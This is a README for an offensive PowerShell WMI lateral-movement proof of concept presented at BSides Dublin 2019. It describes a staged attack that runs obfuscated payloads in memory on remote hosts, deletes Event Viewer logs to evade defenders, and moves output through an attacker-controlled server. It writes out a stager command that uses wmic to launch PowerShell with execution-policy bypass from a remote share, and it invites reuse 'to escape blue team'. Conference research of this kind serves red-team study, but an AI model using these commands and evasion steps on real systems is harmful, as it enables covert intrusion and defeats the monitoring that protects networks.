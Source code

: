 Fud WMI for lateral movement (PoC) - ##BsidesDub 2019## 
============

Author: kmkz - [@kmkz_security](https://twitter.com/kmkz_security)

## Intro

This repository contains the PowerShell WMI based Proof of Concept for advanced lateral movement as presented at BsidesDub 2019.

The main goal of this project was to demonstrate the possibilities an attacker might use to bypass detection mechanisms using many techniques in real-life condition.
It implement random class name derivation generation mechanism, payload obfuscation and EventViewer logs removal via WMI un-subscription.
Aditionaly, it use **WMI only** (no WinRM) and do not interact with registry keys to avoid registry monitoring based detection.

Of course, **feel free to reuse code parts for your own purpose in case of need to escape blue team or for simply test-it**.

## Details

   **Stage 1** (executed on attacker's side):
        The "stage 1" is a simple dropper for payload delivery through UNC/WebDAV using basic obfuscation (require admin. privs for RCE over WMI ofc).
	It is executed from attackers station (C2C) to run in-memory fud PowerShell without the well-known `IWR/IEX` method calls.

[*] Notes:
UNC/WebDAV could be replaced by WMI namespaces as presented in WmiSploit project `https://github.com/secabstraction/WmiSploit`.
        
However, the executed command is then limited to 8190 chars due to `-EncodedCommand` usage for b64 payload, this is the reason why I prefered this method for the PoC.

An important thing here is that .ps1 file is executed over WMI without `invoke-expression` (iex) nor `wget/invoke-webrequest` (iwr) method to prevent alerting.

Classic stager from command line: 
	```
            wmic.exe /node:"Victime-PC" /user:WORKGROUP\admin process call create "PowErSheLl -eXecUtIonpOliCY BypAsS -NopRofilE -fILe \\Vboxsvr\shared\BSIDESIE\class-derivation.ps1"
	```

    
   **Stage 2** (executed on target):
  In-memory build stage 2 using "-File" parameter (obfuscated PowerShell with random Class Derivation).
  
  Randomly generated class derivation and "EventViewer" logs removing for detection mechanisms/blue team evasion.
  Stage 1 execution is not removed from logs for demo purpose, it should be modified for a total discretion ;).


   [*] Notes:
        C2C shell could be used in combination to unicorn to obtains Meterpreter session (stage 2 could be modified depending on the use case):
        
        Examples: `powershell.exe -eXecUtIOnpOlICy BypAsS -File "\\Vboxsvr\shared\BSIDESIE\pwner.ps1"`

        IMPORTANT: Payload delivery using "-File" parameter also permit to add hashes collection when payload (stage 2) is triggered.

   **stage 3** (executed on target):
        Payload execution and output push/pull via a random file located on attacker's server.
	
## Demo

![](PoC-demo.gif)


## Thanks

- @philiptsukerman - WMI guru - https://github.com/Cybereason/Invoke-WMILM
- @arno0x0x - how to say that... its scripts helped me so often during post-exploitation steps... - https://github.com/Arno0x
- @mattifestation - a ton of useful research and publications
- @secabstraction - https://github.com/secabstraction/WmiSploit
- @all: 'cause we all need others to go further!
